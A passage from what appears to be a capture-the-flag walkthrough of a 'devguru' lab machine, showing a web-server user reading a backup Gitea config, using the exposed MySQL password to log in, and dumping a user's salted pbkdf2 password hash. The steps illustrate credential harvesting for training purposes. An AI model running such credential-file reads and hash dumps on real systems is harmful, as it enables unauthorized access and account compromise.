 

```bash
www-data@devguru:/$ cat /var/backups/app.ini.bak

<snipt>
[database]
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
PASSWD              = UfFPTF8C8jjxVF2m
<snipt>
```

#### MySQL Login

```sql
www-data@devguru:/$ mysql -ugitea -pUfFPTF8C8jjxVF2m


MariaDB [(none)]> show schemas;

+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
+--------------------+



MariaDB [(none)]> use gitea


MariaDB [gitea]> show tables;

+---------------------------+
| Tables_in_gitea           |
+---------------------------+
<snip>
| user                      |
<snip>
+---------------------------+


MariaDB [gitea]> select name,salt,passwd,passwd_hash_algo as algo from user;


+-------+------------+--------------------------------------------------------------------------------
| name  | salt       | passwd                                                               | algo   |
+-------+------------+----------------------------------------------------------------------+--------+
| frank | Bop8nwtUiM | c200e0d03d1604cee72c484f154dd82d<snip>3397e26a18fb806c7a20f0b564c900 | pbkdf2 |
+-------+------------+----------------------------------------------------------------------+--------+

```
